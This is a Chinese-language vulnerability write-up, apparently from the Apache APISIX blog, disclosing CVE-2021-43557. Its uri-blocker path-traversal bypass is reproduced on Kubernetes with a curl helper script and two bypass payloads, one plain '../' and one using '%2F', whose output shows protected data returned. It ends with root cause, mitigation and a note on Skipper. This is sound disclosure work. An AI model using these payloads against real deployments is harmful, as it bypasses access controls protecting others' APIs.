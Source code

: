 ```yaml
---
title: "Apache APISIX request_uri 变量控制不当，存在路径穿透风险"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- Kubernetes
- Request_uri
- 安全漏洞
description: 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中`$request_uri` 变量不安全使用的问题研究。
tags: [Technology]
---
```


> 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中 `$request_uri` 变量不安全使用的问题研究。

<!--truncate-->

本文提及的 Ingress Controller 中 `$request_uri` 变量不安全使用的问题，目前该漏洞已被确认为 CVE-2021-43557。在向社区及时反馈后，目前该漏洞已第一时间被修复。同时在文章最后，我也将简要地提到我为同一问题测试的[Skipper](https://github.com/zalando/skipper) 项目。

> Apache APISIX 是一个动态、实时、高性能的 API 流量处理平台，它提供了丰富的流量管理功能，如负载均衡、动态上游、金丝雀发布、断路器、身份认证、可观测性等。

为什么是 `$request_uri`？

[`$request_uri`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri)在认证和授权插件中被多次使用。因为它是**not normalized**，所以就增加了绕过一些限制的可能性。

Apache APISIX 内置多种身份认证插件，当然，你也可以编写自定义插件。为了验证它受到了路径遍历问题的影响，我选择了 `uri-blocker` 插件进行演示。

## 开始部署

在这里，我使用了 0.7.2 版本的 Helm Chart 来将 Apache APISIX 部署至 Kubernetes 中：

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

> 如果安装时出现问题，请参考[官方指南](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md)。

接下来创建 Ingress 路由，在这里就需要部署 `ApisixRoute` 资源：

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

`ApisixRoute` 可以做到以下内容：

- 为 `public-service` 和 `private-service` 创建路由；
- 开启 `proxy-rewrite` 来删除前缀；
- 为 `protected-service` 配置了 `uri-blocker` 插件。这个插件会阻止任何以 `/protected-service` 开头的请求。

## 复现步骤

在这里，我使用的是 **2.10.0** 版本的 Apache APISIX。

选择使用 minikube 来访问 Apache APISIX 路由资源：

```shell
kubectl exec -it -n ${Apache APISIX namespace} ${Apache APISIX Pod name} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'
```

此外，我也写了一个脚本来减少重复性操作：

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

> 在尝试复现问题时，可将 `apisix-dc9d99d76-vl5lh`替换为实际的 Apache APISIX Pod 名称。

接下来让我们开始验证路由和插件是否按预期正常工作：

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

从上边我们看到，`public-service` 是可用的，`protected-service` 则被插件阻止了。

现在让我们测试一下 Payload：

- 情况一

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

- 情况二

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

正如你所看到的，在上述两种情况下，我都能够绕过 Uri 的限制。

### 漏洞解析

出现上述情况的根本原因是 `uri-blocker` 插件在处理禁止访问的逻辑中使用了 `ctx.var.require_uri` 变量。可以点击[相关代码](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98)进行查看。

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### 漏洞影响

- 攻击者可以绕过访问控制限制逻辑，访问本应该禁止的 API；
- 自定义插件的开发者或许不知道 `ngx.var.request_uri` 变量是不可信任的。

在搜索 `var.request_uri` 相关用法时，我猜测上述漏洞或许对 [authz-keycloak](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) 插件也有影响。

具体细节详情可以参考[这段代码](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578)。如果 keycloak 方面没有进行相关规范化，那么出现漏洞的可能性就很大。

### 处理措施

关于此漏洞的解决方法，我个人建议如果是使用自定义插件的话，可在使用 `ngx.var.request_uri` 变量前进行路径规范化的相关处理。同时可以额外检查下 `ctx.var.upstream_uri` 和 `ctx.var.uri` 这两个变量，虽然可能已经被规范化了，但防患于未然。

## Skipper

Skipper 是我个人在进行上述安全漏洞调查时接触到的另一个 Ingress Controller。因其内容久远未更新，在 Kubernetes 中安装它并不容易。幸运的是，我在开发者文章里找到了如何安装它的相关内容。

这项 Ingress 提供了基于 [WebHook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook) 实现的外部认证可能性。

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

通过添加一些 headers 可以优化访问控制决策，但需要用 `setRequestHeader` 过滤器手动完成。

有一个模板可以通过使用 `${}` 来注入变量，但遗憾的是（对攻击者来说）`${request.path}` 有正常化的路径。在它的开发代码中可以看到，开发人员并没有轻易使用 `RequestURI` 和`originalRequest`。

我没有进行相关的路径遍历测试，或许 Skipper 也是安全可信的一个 Ingress Controller 选择。

## 总结

虽然前文中我提到了 Apache APISIX 存在路径遍历的漏洞，但该漏洞并不影响任何外部认证，只是影响了使用 `ctx.var.request_uri` 变量的插件。同时该漏洞已被 Apache APISIX 进行了及时修复，目前已没有安全漏洞问题，大家可放心使用。

关于本文中提到的全部代码都可以在[这里](https://github.com/xvnpw/k8s-CVE-2021-43557-poc)进行查阅参考。
